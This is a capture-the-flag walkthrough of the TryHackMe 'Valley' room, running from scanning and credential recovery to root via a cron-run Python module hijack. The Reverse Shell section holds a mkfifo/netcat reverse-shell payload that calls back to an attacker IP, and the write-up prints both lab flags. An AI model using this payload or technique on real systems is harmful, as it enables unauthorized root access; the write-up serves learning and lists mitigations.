# Valley (TryHackMe) Walkthrough

<p align="center">


</p>

A complete walkthrough of the **Valley** room on **TryHackMe**, covering the complete penetration testing methodology from reconnaissance to privilege escalation.

>  **Full detailed Medium article:**  
> https://medium.com/@revanthjugunta/valley-tryhackme-pentesting-walkthrough-9e3930ad7555?sharedUserId=revanthjugunta

---

# Room Information

| Property | Value |
|----------|-------|
| Platform | TryHackMe |
| Difficulty | Easy |
| Operating System | Linux |

---

# Skills Covered

- Reconnaissance
- Network Enumeration
- Web Enumeration
- Directory Bruteforcing
- JavaScript Source Analysis
- FTP Enumeration
- Packet Analysis (Wireshark)
- SSH Authentication
- Binary Analysis
- Linux Privilege Escalation
- Cron Job Exploitation
- Reverse Shell

---

# Tools Used

- Nmap
- Gobuster
- FTP
- Wireshark
- SSH
- strings
- CrackStation
- Python3
- Netcat

---

# Attack Path

```
Reconnaissance
      │
      ▼
Nmap Scan
      │
      ▼
Website Enumeration
      │
      ▼
Developer Notes
      │
      ▼
Gobuster Enumeration
      │
      ▼
Hidden Development Portal
      │
      ▼
JavaScript Credential Disclosure
      │
      ▼
FTP Access
      │
      ▼
PCAP Analysis
      │
      ▼
SSH Access
      │
      ▼
User Flag
      │
      ▼
Binary Analysis
      │
      ▼
Privilege Escalation
      │
      ▼
Cron Job Abuse
      │
      ▼
Reverse Shell
      │
      ▼
Root Flag
```

---

# Walkthrough

## Reconnaissance

The engagement begins by identifying the attack surface of the target machine.

```bash
nmap -sV -p- <TARGET-IP>
```

This scan discovers three open TCP ports:

- **22** – SSH
- **80** – HTTP
- **37370** – FTP

The FTP service running on a non-standard port becomes an interesting target for further investigation.



---

## Web Enumeration

The web application hosts a photography website.

While manually browsing the application, checking the source code did not reveal anything useful.

However, a developer note hidden inside the application suggested that more undiscovered resources might exist.


---

## Directory Enumeration

Gobuster is used to enumerate hidden directories.

```bash
gobuster dir -u http://<TARGET-IP> \
-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Initial enumeration reveals additional directories.



Enumerating the newly discovered `/static` directory reveals several numbered folders.



One of these folders exposes another developer note containing a hidden development endpoint.

---

## Hidden Development Portal

Browsing to the hidden endpoint reveals a login page.



Testing SQL Injection and XSS does not produce any results.

Inspecting the client-side JavaScript reveals hardcoded credentials.



These credentials successfully authenticate to the developer portal.

---

## FTP Enumeration

Inside the developer dashboard, a note mentioning the FTP service hints that the recovered credentials may also work for FTP.

Connecting to the FTP service confirms this assumption.



Several packet capture files become available for download.

---

## Packet Analysis

The downloaded PCAP files are analyzed using Wireshark.

Filtering HTTP traffic exposes authentication credentials inside a POST request.



These credentials provide access to SSH.

---

## Initial Foothold

Using the recovered SSH credentials grants shell access to the target.

```bash
ssh <username>@<TARGET-IP>
```

The first flag is located inside the user's home directory.



User Flag

```
THM{k@l1 1n th3 v@lley}
```



---

## Binary Analysis

System enumeration reveals an executable named **valleyAuthenticator**.

Running `strings` against the executable exposes an embedded hash.

After cracking the hash, the recovered credentials successfully authenticate the binary and reveal another user account.

---

## Privilege Escalation

Inspecting scheduled cron jobs reveals a Python script executed as root.

```bash
cat /etc/crontab
```

The script imports the Python **base64** module.

Because the module is writable, arbitrary Python code can be injected into `base64.py`.



---

## Reverse Shell

Appending a reverse shell payload to the writable Python module allows code execution when the cron job runs.

```python
import os
os.system("rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc <ATTACK-IP> 4444 >/tmp/f")
```

Starting a Netcat listener receives the incoming connection.

```bash
nc -lvnp 4444
```



A root shell is obtained.

---

## Root Flag

The final flag is located in the root user's directory.

```
THM{v@lley_0f_th3_sh@d0w_0f_pr1v3sc}
```



---

# Key Takeaways

- Enumeration is the most important phase of penetration testing.
- Hidden directories frequently expose sensitive information.
- JavaScript should never contain hardcoded credentials.
- Packet captures often reveal authentication data.
- Credential reuse increases attack impact.
- Writable Python modules executed through cron jobs can lead to privilege escalation.
- Small security misconfigurations can be chained together to fully compromise a system.

---

# Mitigations

- Remove developer notes before deployment.
- Avoid hardcoding credentials in client-side JavaScript.
- Disable unnecessary services.
- Enforce unique credentials across services.
- Restrict access to packet capture files.
- Protect Python libraries from unauthorized modification.
- Regularly audit cron jobs and scheduled tasks.
- Apply the Principle of Least Privilege.

---

# Disclaimer

This repository is intended for educational purposes only. All testing was performed within the legal TryHackMe lab environment.

---

# Read the Full Article

A more detailed explanation of every step, including the thought process behind each decision, is available on Medium:

🔗 **Medium:**  
https://medium.com/@revanthjugunta/valley-tryhackme-pentesting-walkthrough-9e3930ad7555?sharedUserId=revanthjugunta

---

# Author

**Revanth Jugunta**

If you found this repository useful, consider ⭐ starring it and following me for more cybersecurity write-ups.
